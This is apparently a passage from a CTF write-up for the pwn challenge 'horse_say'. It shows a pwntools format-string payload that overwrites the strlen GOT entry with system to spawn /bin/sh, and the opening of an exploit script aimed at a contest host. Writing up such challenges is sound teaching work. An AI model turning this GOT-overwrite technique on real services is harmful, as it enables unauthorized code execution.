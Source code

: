```py
pl3 = fmtstr_payload(12, {exe.got.strlen : system})
sla("something: ", pl3)
```

Before:
![ảnh](https://hackmd.io/_uploads/rkyNrzmRee.png)
After:
![ảnh](https://hackmd.io/_uploads/rJurBfQCgx.png)

#### Trigger shell

Send **/bin/sh** as the input. The overwritten GOT causes execution of `system("/bin/sh")`. Then interact with the shell and read the flag.

```py
#!/usr/bin/env python3

from pwn import *
import subprocess

exe = ELF('horse_say', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r      = lambda n=4096, proc=None: proc.recv(n) if proc else p.recv(n)
rl     = lambda proc=None: proc.recvline() if proc else p.recvline()
ru     = lambda delim=b'\n', proc=None: proc.recvuntil(delim) if proc else p.recvuntil(delim)
ra     = lambda proc=None: proc.recvall() if proc else p.recvall()

def GDB():
    gdb.attach(p, gdbscript="""
        b*main+118
        b*main+385
        b*main+551
               
        """)

if args.REMOTE:
    p = remote("pwn1.cscv.vn", int("6789"))
else:
    p = process([exe.path])
    if args.GDB:
        GDB()

# Gud luk pwner !

ru("work: ")
curl_cmd = rl().strip()
info(f'curl: {curl_cmd}')

```